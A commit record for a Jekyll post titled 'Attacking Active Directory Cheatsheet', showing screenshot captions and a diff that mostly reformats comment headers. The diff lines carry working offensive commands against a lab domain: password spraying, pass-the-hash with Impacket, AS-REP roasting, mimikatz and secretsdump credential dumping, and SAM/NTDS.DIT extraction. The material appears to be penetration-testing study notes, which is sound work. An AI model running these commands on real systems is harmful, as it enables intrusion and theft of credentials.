

Before and after one commit to Vorkharium/vorkharium.github.io, a Jekyll site: the page built from _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md, in a window 1280 px wide and 1400 px high, scrolled down 7834 px. Shown: the whole window at 91% size, without its empty margins (229-1267 px from the left). Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Update 2024-11-01-Attacking-Active-Directory-Cheatsheet.md

````diff
--- a/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
+++ b/_posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md
@@ -139,7 +139,7 @@
 nxc smb 172.16.150.10 -u john -p 'Password123!' --groups
 crackmapexec smb 172.16.150.10 -u john -p 'Password123!' --groups
 
-# CMD and PowerShell
+# -------------------- CMD and PowerShell --------------------
 
 # Domain groups
 net group /domain
@@ -165,7 +165,7 @@
 ```
 ### SMB Shares Credentialed Access and Enumeration
 ```shell
-# Enumeration
+# -------------------- Enumeration --------------------
 
 # NetExec and CrackMapExec
 nxc smb 172.16.150.10 -u john -p 'Password123!' --shares
@@ -218,12 +219,13 @@
 ```
 ### Password Spraying
 ```shell
-# kerbrute.py
+# -------------------- kerbrute.py --------------------
 git clone https://github.com/TarlogicSecurity/kerbrute.git
 cd kerbrute
+
 python3 kerbrute.py -users usernames.txt -passwords passwords.txt -dc-ip 172.16.150.10 -domain vorkharium.com
 
-# NetExec
+# -------------------- NetExec --------------------
 
 # Password Spraying
 nxc smb 172.16.150.10 -u john -p passwords.txt
@@ -270,7 +272,7 @@
 # Display stored credentials
 cmdkey /list
 
-# Finding and Cracking KeePass .kdbx Files
+# -------------------- Finding and Cracking KeePass .kdbx Files --------------------
 
 # CMD
 dir /s /b *.kdbx
@@ -280,7 +282,7 @@
 keepass2john Database.kdbx > keepasshash
 john --wordlist=/usr/share/wordlists/rockyou.txt keepasshash
 
-# Finding Files potentially containing Credentials
+# -------------------- Finding Files potentially containing Credentials --------------------
 
 # .db and KeePass .kdbx
 Get-ChildItem -Path C:\ -Include *.db, *.kdbx -Recurse -ErrorAction SilentlyContinue | Select-Object FullName
@@ -302,7 +304,7 @@
 ```
 ### Runas and RunasCs.exe
 ```shell
-# Native Runas
+# -------------------- Native Runas --------------------
 
 # Local - Changing to user "jane"
 runas /user:jane cmd # # Enter the password now when asked
@@ -310,14 +312,14 @@
 # Domain - Changing to user "john"
 runas /netonly /user:vorkharium.com\john cmd
 
-# RunasCs.exe
+# -------------------- RunasCs.exe --------------------
 
 # Using RunasCs.exe with pwnednewuser (pwnednewuser is a new user with admin rights we added before through an exploit)
 ./RunasCs.exe pwnednewuser 'password123!' "cmd /c type C:\Users\Administrator\Desktop\root.txt" --bypass-uac --logon-type '8' --force-profile
 ```
 ### BloodHound, SharpHound.exe, bloodhound-python
 ```shell
-# BloodHound Collectors
+# -------------------- BloodHound Collectors --------------------
 
 # SharpHound v1.1.1 (Use version 1.1.1, otherwise SharpHound.exe results won't work and BloodHound will appear empty after loading them)
 ./SharpHound.exe --CollectionMethods All
@@ -364,7 +368,7 @@
 https://book.hacktricks.xyz/windows-hardening/basic-powershell-for-pentesters/powerview
 ### Impacket PsExec, WmiExec and SMBExec - SMB Shell Access with Password or Pass-the-Hash
 ```shell
-# Using Password
+# -------------------- Using Password --------------------
 
 # impacket-psexec with password
 impacket-psexec Administrator:'Password123!'@172.16.150.10
@@ -378,7 +382,7 @@
 impacket-smbexec Administrator:'Password123!'@172.16.150.10
 impacket-smbexec vorkharium.com/Administrator:'Password123!'@172.16.150.10
 
-# Using Hash (Pass-the-Hash)
+# -------------------- Using Hash (Pass-the-Hash) --------------------
 
 # impacket-psexec with hash
 impacket-psexec Administrator@172.16.150.10 -hashes :1a06b4248879e68a498d3bac51bf91c9
@@ -439,7 +441,7 @@
 # AS-REP Roasting with password
 impacket-GetNPUsers vorkharium.com/john:'Password123!' -dc-ip 172.16.150.10 -request -no-pass
 
-# Cracking the hash
+# -------------------- Cracking the hash --------------------
 
 # With Hashcat
 hashcat -m 18200 -a 0 jane_hash.txt /usr/share/wordlists/rockyou.txt
@@ -451,7 +453,7 @@
 ```
 ### Remote Credential Dumping with Impacket and NetExec
 ```shell
-# Using Impacket
+# -------------------- Using Impacket --------------------
 
 # With password
 impacket-secretsdump vorkharium.com/john:'Password123!'@172.16.150.10
@@ -464,7 +466,7 @@
 # Example with -dc-ip
 impacket-secretsdump -dc-ip 172.16.150.10 'vorkharium.com/john:"Password123!"@172.16.150.10'
 
-# With NetExec
+# -------------------- With NetExec --------------------
 
 # SAM
 nxc smb 172.16.150.20 -u john -p 'Password123!' --sam
@@ -489,7 +491,7 @@
 ```
 ### Local Credential Dumping with Mimikatz and Impacket
 ```shell
-# Mimikatz.exe
+# -------------------- Mimikatz.exe --------------------
 
 # Important Note: mimikatz.exe wont work from the evil-winrm console. Use nc to get shell instead
 # Run mimikatz.exe as administrator
@@ -511,7 +513,7 @@
 .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "lsadump::sam" "exit"
 .\mimikatz.exe "privilege::debug" "token::elevate" "sekurlsa::logonpasswords" "exit"
 
-# SAM and NTDS.DIT Dump
+# -------------------- SAM and NTDS.DIT Dump --------------------
 
 # reg.exe
 reg save hklm\sam 'C:\Windows\Temp\sam'
@@ -524,20 +526,19 @@
 Copy-FileSeBackupPrivilege V:\Windows\NTDS\NTDS.DIT C:\Users\john\Desktop\NTDS.DIT
 # Find a way to get NTDS.DIT and transfer it to Kali for local dump
 
-# impacket-secretsdump
+# -------------------- impacket-secretsdump --------------------
 
 # With Security
 impacket-secretsdump -system SYSTEM -sam SAM -security SECURITY local
 
 # With NTDS.DIT
-
 impacket-secretsdump -system SYSTEM -sam SAM -ntds NTDS.DIT local
 
 # Without SECURITY and without NTDS.DIT (Still able to dump something interesting)
 impacket-secretsdump -sam SAM -system SYSTEM local
 
-# samdump2
-samdump2 system sam
+# -------------------- samdump2 --------------------
+samdump2 SYSTEM SAM
 
 # Note: Pay attention to case sensitive, upper and lower case. Try both tools always, one might fail
 ```
````
Also changed, not shown: other parts of _posts/2024-11-01-Attacking-Active-Directory-Cheatsheet.md (+5 -4 lines).
